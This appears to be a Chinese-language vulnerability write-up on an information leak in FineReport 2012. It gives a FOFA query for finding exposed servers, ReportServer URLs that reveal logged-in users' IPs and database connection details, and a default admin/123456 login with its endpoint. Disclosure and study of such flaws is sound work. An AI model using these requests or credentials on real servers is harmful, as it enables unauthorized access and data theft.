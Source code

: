 # 帆软报表 2012 信息泄露漏洞

## 漏洞描述

帆软报表 2012 存在信息泄露漏洞，通过访问特定的Url获取部分敏感信息

## 漏洞影响

```
帆软报表 2012
```

## FOFA

```
body="down.download?FM_SYS_ID"
```

## 漏洞复现

获取登录报表系统的IP

```plain
http://xxx.xxx.xxx.xxx/ReportServer?op=fr_server&cmd=sc_visitstatehtml&showtoolbar=false
```



![image-20220209113026424](./images/202202091130468.png)



数据库信息泄露

```plain
http://xxx.xxx.xxx.xxx/ReportServer?op=fr_server&cmd=sc_getconnectioninfo
```



![image-20220209113041021](./images/202202091130098.png)

后台默认口令 admin/123456

```plain
/ReportServer?op=fr_auth&cmd=ah_login&_=new%20Date().getTime()
```